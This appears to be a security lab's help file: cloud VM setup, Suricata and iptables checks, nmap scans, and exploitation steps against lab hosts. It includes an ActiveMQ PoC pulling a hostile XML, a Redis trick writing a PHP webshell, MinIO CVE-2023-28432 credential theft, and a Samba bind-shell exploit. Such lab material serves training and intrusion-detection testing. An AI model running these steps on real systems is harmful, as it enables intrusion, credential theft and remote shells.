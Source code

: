# Help


## Yandex Cloud

### Create VM
```bash
yc compute instance create \
  --name warfare-vm \
  --public-ip \
  --zone ru-central1-a \
  --hostname warfare-vm \
  --cores 2 \
  --memory 2GB \
  --create-boot-disk image-id=fd84n8eontaojc77hp0u,size=40GB,image-folder-id=standard-images \
  --ssh-key ~/.ssh/id_rsa.pub \
  --core-fraction 50
```

## General

### Resize vagrant disk
```bash
df -h
lsblk
sudo pvresize /dev/sda3
sudo lvextend -l +100%FREE /dev/mapper/ubuntu--vg-ubuntu--lv
sudo resize2fs /dev/mapper/ubuntu--vg-ubuntu--lv
sudo cfdisk /dev/sda
```

### Check iptables:
```bash
sudo iptables -L DOCKER-USER -nv --line-numbers
```

### Check Suricata logs:
```bash
journalctl -u suricata.service -b
sudo tail -n 200 /var/log/suricata/suricata.log
sudo tail -n 0 -f /var/log/suricata/fast.log
sudo tail -n 0 -f /var/log/suricata/eve.json | jq .
```

### Run Suricata:
```bash
sudo suricata -c /etc/suricata/suricata.yaml -q 0
```

### Run NMAP scan:
```bash
nmap -sS victim     # SYN scan
nmap -sX victim     # Xmas scan
nmap -sU victim     # UDP scan
nmap -O victim      # OS detection
```

## Vulnerabilities

### 1. ActiveMQ
```bash
nmap -sV -p 61616,8161 172.20.0.101
curl -I http://172.20.0.101:8161/
cd /opt
python3 -m http.server 8888
python3 poc.py -i 172.20.0.101 -p 61616 -u http://172.20.0.10:8888/poc.xml
```

### 2. Redis Unauthorized Access + Command Execution
```bash
nmap -sV -p 6379 172.20.0.102
redis-cli -h 172.20.0.102 ping
redis-cli -h 172.20.0.102
>>> info server
>>> config get "*"
>>> keys *
>>> dbsize
>>> config set dir /tmp
>>> config set dbfilename webshell.php
>>> set test "<?php system($_GET['cmd']); ?>"
>>> save
```

### 3. Minio
```bash
nmap -sV -p 9000,9001 172.20.0.103
curl -I http://172.20.0.103:9000/
curl -I http://172.20.0.103:9001/
curl -X POST http://172.20.0.103:9000/minio/bootstrap/v1/verify \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d "" | jq '.MinioEnv.MINIO_ROOT_USER, .MinioEnv.MINIO_ROOT_PASSWORD'
```

Then we can use the AWS CLI to exploit the vulnerability
```bash
aws configure set aws_access_key_id minioadmin
aws configure set aws_secret_access_key minioadmin-vulhub
aws configure set region us-east-1
aws --endpoint-url http://172.20.0.103:9000 s3 mb s3://cve-2023-28432-pwned make_bucket: cve-2023-28432-pwned
echo "MinIO Cluster compromised via CVE-2023-28432!" > cve_exploit_proof.txt
echo "Stolen credentials: minioadmin:minioadmin-vulhub" >> cve_exploit_proof.txt
aws --endpoint-url http://172.20.0.103:9000 s3 cp cve_exploit_proof.txt s3://cve-2023-28432-pwned/
aws --endpoint-url http://172.20.0.103:9000 s3 ls s3://cve-2023-28432-pwned/
```

### 4. Samba
```bash
smbclient -L //172.20.0.104/ -N
cd /opt
./exploit.py -t 172.20.0.104 \
  -e libbindshell-samba.so \
  -s myshare \
  -r /home/share/libbindshell-samba.so \
  -u guest -p guest \
  -P 6699

```